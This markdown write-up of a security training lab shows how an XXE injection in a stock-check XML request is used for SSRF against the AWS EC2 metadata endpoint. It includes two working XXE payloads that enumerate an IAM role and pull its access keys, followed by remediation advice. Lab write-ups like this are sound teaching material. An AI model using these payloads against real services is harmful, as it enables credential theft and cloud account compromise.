



# SSRF via XML External Entity (XXE) Injection

## Lab Information

* **Classification:** XXE Injection
* **Challenge Name:** Exploiting XXE to Perform SSRF Attacks
* **Skill Level:** Apprentice
* **Status:** Resolved

---

## Objective

The application processes XML parameters within the stock checking component. By injecting an external entity, we can coerce the server into issuing HTTP requests to internal networks. The goal is to exploit this XXE vulnerability to perform a Server-Side Request Forgery (SSRF) against the AWS EC2 metadata server, ultimately extracting the IAM secret access key.

---

## Vulnerability Analysis

XML External Entity (XXE) vulnerabilities arise when a parser processes user-controlled external entities. Attackers can exploit this behavior to read local resources, perform server-side requests (SSRF), scan internal hosts, and extract credentials. In this environment, XXE is leveraged to access the internal cloud metadata endpoint:

```text
http://169.254.169.254/
```

---

## Exploitation Steps

### Step 1 - Capturing the Stock Request

1. Navigate to a product detail view.
2. Select the **Check Stock** function.
3. Intercept the outgoing XML payload using Burp Suite.

### Screenshot



---

### Step 2 - Enumerating the IAM Role

Inject the following XXE payload to query the security credentials directory:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

The server returns an error displaying the resolved entity value:

```text
Invalid product ID: admin
```

This reveals that the system has an IAM role named:

```text
admin
```

### Screenshot



---

### Step 3 - Extracting AWS Credentials

Modify the entity target to append the discovered role name:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Submit the request again. The response returns the AWS IAM credentials:

```json
{
  "Code": "Success",
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "..."
}
```

### Screenshot



---

### Step 4 - Challenge Solved

After retrieving the IAM credentials, the lab is automatically solved.

### Screenshot


---

## Security Impact

An attacker can abuse XXE vulnerabilities to:

* Access internal network services.
* Query cloud metadata endpoints.
* Retrieve sensitive credentials.
* Escalate privileges.
* Perform SSRF attacks.

In cloud environments, exposure of IAM credentials can lead to complete account compromise.

---

## Remediation Strategies

To prevent XXE vulnerabilities:

1. Disable external entity processing in XML parsers.
2. Use secure XML parser libraries and settings.
3. Validate and sanitize incoming XML data.
4. Implement network segmentation to block access to sensitive endpoints.
5. Restrict access to cloud metadata services.
6. Use allowlists for outbound backend connections.

---

## Summary

The application was vulnerable to XML External Entity injection. By leveraging XXE to perform SSRF against the EC2 metadata endpoint, we enumerated the IAM role and retrieved sensitive cloud credentials, successfully exploiting the application.
